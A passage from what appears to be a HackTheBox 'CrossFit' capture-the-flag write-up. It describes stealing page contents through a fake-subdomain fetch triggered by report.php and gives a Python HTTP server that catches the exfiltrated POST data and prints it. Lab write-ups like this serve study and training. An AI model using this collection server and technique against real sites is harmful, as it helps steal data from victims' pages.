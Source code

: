 So the above takes a fake subdomain, and then attempts to fetch it. Retrieving a legit domain results in a page being stolen like so:

![](../../../.gitbook/assets/htb-crossfit-image-7.png)

I noted that this was being visited by `report.php`. As such, I can start brute forcing this thing using a Python server that accepts POST requests and outputs them to `stdout`.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer
from urllib.parse import parse_qs

class MyRequestHandler(BaseHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)
        params = parse_qs(post_data.decode('utf-8'))

        self.send_response(200)
        self.send_header('Content-type', 'text/plain')
        self.end_headers()

        # Print the received parameters
        for key, values in params.items():
            if 'zxx' in values:
                break
            print(f"{key}: {values}")

def run_server(port=8000):
    server_address = ('', port)
    httpd = HTTPServer(server_address, MyRequestHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()
```